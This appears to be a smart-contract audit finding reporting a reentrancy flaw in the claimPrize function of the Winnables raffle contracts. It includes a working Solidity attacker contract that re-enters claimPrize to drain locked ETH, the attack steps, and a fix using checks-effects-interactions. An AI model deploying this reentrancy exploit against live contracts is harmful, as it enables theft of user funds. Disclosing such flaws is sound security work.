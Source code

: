 Faithful Smoke Hawk

High

# Reentrancy will drain all locked ETH in WinnablesPrizeManager

### Summary

Sending ETH rewards to a smart contract winner may potentially lead to a reentrancy attack and all locked ETH will be drained.

### Root Cause

`claimPrize` function does not follow the CEI(checks-effects-interactions) pattern and lacks a reentrancy guard.
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L105-L124
https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L314-L317

### Internal pre-conditions

1. Attacker (smart contract) is a winner in a `lockETH` raffle.

### External pre-conditions

1. Attacker use `create2` to deploy smart contract in ethereum and avalanche with same address. The smart contract code is as follows:
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.24;

interface IWinnablesTicketManager {
    function buyTickets(uint256 raffleId, uint16 ticketCount, uint256 blockNumber, bytes calldata signature)
        external
        payable;
}

interface IWinnablesPrizeManager {
    function claimPrize(uint256 raffleId) external;

    function getETHRaffle(uint256 id) external view returns (uint256);
}

contract AttackerContract {
    IWinnablesTicketManager ticketManager;
    IWinnablesPrizeManager prizeManager;

    uint256 public id;

    constructor(address _ticketManager, address _prizeManager) {
        ticketManager = IWinnablesTicketManager(_ticketManager);
        prizeManager = IWinnablesPrizeManager(_prizeManager);
    }

    receive() external payable {
        if (address(prizeManager).balance > prizeManager.getETHRaffle(id)) {
            prizeManager.claimPrize(id);
        }
    }

    function buyTickets(uint256 raffleId, uint16 ticketCount, uint256 blockNumber, bytes calldata signature) external {
        ticketManager.buyTickets(raffleId, ticketCount, blockNumber, signature);
    }

    function claimPrize(uint256 raffleId) external {
        id = raffleId;
        prizeManager.claimPrize(id);
    }
}
```

### Attack Path

1. Attacker call smart contract function `buyTickets` in avalanche
2. Attacker(smart contract) is a winner
3. Attacker call smart contract function `claimPrize` in ethereum

### Impact

All locked ETH are drained.

### PoC

_No response_

### Mitigation

Two ways:
1. follow CEI pattern
```diff
    function claimPrize(uint256 raffleId) external {
        RafflePrize storage rafflePrize = _rafflePrize[raffleId];
+       if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
+       if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
+       rafflePrize.status = RafflePrizeStatus.CLAIMED;
        RaffleType raffleType = rafflePrize.raffleType;
        if (raffleType == RaffleType.NFT) {
            NFTInfo storage raffle = _nftRaffles[raffleId];
            _nftLocked[raffle.contractAddress][raffle.tokenId] = false;
            _sendNFTPrize(raffle.contractAddress, raffle.tokenId, msg.sender);
        } else if (raffleType == RaffleType.TOKEN) {
            TokenInfo storage raffle = _tokenRaffles[raffleId];
            unchecked {
                _tokensLocked[raffle.tokenAddress] -= raffle.amount;
            }
            _sendTokenPrize(raffle.tokenAddress, raffle.amount, msg.sender);
        } else if (raffleType == RaffleType.ETH) {
            unchecked {
                _ethLocked -= _ethRaffles[raffleId];
            }
            _sendETHPrize(_ethRaffles[raffleId], msg.sender);
        } else {
            revert InvalidRaffle();
        }
-       if (msg.sender != rafflePrize.winner) revert UnauthorizedToClaim();
-       if (rafflePrize.status == RafflePrizeStatus.CLAIMED) revert AlreadyClaimed();
-       rafflePrize.status = RafflePrizeStatus.CLAIMED;
        emit PrizeClaimed(raffleId, msg.sender);
    }
```
2. Add reentrancy guard